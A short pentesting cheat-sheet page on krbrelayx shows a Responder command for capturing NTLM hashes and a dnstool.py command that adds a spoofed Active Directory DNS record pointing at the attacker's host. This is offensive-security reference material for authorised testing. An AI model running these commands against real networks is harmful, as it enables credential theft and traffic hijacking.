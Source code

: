 ```yaml
---
title: "Krbrelayx"
date: 2024-7-23
tags: ["Dns Spoofing", "Krbrelayx", "Dnstools", "Active Driectory", "Windows", "DNS", "Ntlm"]
---
```


### Abuse #1: Add Active Directory Integrated DNS records via LDAP

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Capture NTLM hash
sudo responder -I tun0
```

```console
python3 dnstool.py -u '<DOMAIN>\<USER>' -p '<PASSWORD>' --action add --record <TARGET_RECORD> --data <LOCAL_IP> <TARGET_IP>
```

<small>*Ref: [krbrelayx tools](https://github.com/dirkjanm/krbrelayx)*</small>

{{< /tabcontent >}}
